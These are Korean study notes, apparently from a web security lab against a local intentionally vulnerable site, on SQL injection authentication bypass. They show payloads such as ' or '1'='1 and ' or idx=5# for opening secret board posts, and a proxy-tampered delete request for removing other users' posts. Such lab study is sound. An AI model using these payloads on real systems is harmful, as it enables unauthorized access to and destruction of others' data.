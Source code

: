 → db상에서 최상단에 있는 계정으로 로그인

  

## 인증 우회 공격을 이용한 비밀글 무단 열람

QUERY 문 추론

```SQL
select * from board where idx=2 and password=’’
```

→ 패스워드에 다음과 같이 입력 : ==‘ or ‘1’=’1==

  

### 비밀글이 최상위 레코드가 아닌 경우

```SQL
select * from board where idx=2 and password='' or '1'='1';
```

idx=2 and password=’’가 false로 연산된 후 ‘1’=’1’ 연산 수행 후 두 결과가 or연산 되기 때문에 최종 결과값이 참이 되므로 모든 게시글의 결과가 리턴됨

⇒결국 비밀 게시글이 열리지 않고 db상 최상단에 있는 게시글이 열림

비밀 게시글 열람을 위해 알아야 할 것 : 게시글 인덱스 값

  

`[http://127.0.0.1/insecure_website/index.php?page=auth&idx=5&mode=view](http://127.0.0.1/insecure_website/index.php?page=auth&idx=5&mode=view)`

URL을 통해 GET 방식의 통신인 경우 idx 값을 추론해 낼 수 있음

idx=5가 게시글의 인덱스값을 나타낼 가능성이 높고, db상에서 idx로 표현했을 가능성 높음

이걸 이용해서 패스워드 값을 입력하면

- In-line Query
    
    → ‘ or idx=5 and ‘1’=’1
    

- Terminating Query
    
    → ‘ or idx=5#
    

로 바꿀 경우 5번 게시글이 열릴 가능성 높음

  

## 인증 우회 공격을 이용한 게시글 무단 삭제

파라미터 변조 취약점을 활용

→ 프록시 서버에서 서버로 보내기 전, 입력한 패스워드 뒤에 ==‘+or+1=1%23==을 붙이고, 삭제하려는 게시글의 idx값을 바꿔서 서버에 삭제 요청

※ 프록시 서버의 경우 보내는 데이터가 URL 인코딩이 되어 전송되기 때문에 공백 대신 +를 사용하고, 특수문자는 URL 인코딩이 필요함

idx 파라미터가 취약할 경우 인증 우회 공격 방법
